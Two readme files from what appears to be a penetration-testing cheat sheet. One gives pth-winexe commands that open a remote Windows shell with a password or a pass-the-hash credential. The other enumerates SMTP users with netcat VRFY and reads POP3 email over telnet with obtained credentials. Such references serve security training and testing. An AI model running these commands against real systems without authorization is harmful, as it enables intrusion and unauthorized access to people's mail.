 

---
File: /CheatSheets/shell/readme.md
---

# Windows Shell

## pth-winexe

### With Pass

pht-winexe -U <user>%<pass> //Target_IP cmd

`pth-winexe -U bob%alice //172.10.1.60 cmd`

### Pass The Hash 

`pth-winexe -U bob%hash //172.16.1.60 cmd`




---
File: /CheatSheets/SMTP/readme.md
---

# SMTP

### netcat

Enum Users

`nc -vn target 25`

`VRFY User_to_test`

`VRFY root`
answer = 252 2.0.0 root means That this user Exist here.

`VRFY bla`
answer = 550 5.1.1 means that bla doesn't exist here.

## Got users and Pass?

### Reading emails using Telnet

telnet Ip_target port

```
$telnet 172.20.10.2 110
USER username
PASS password

list

retr 1

```
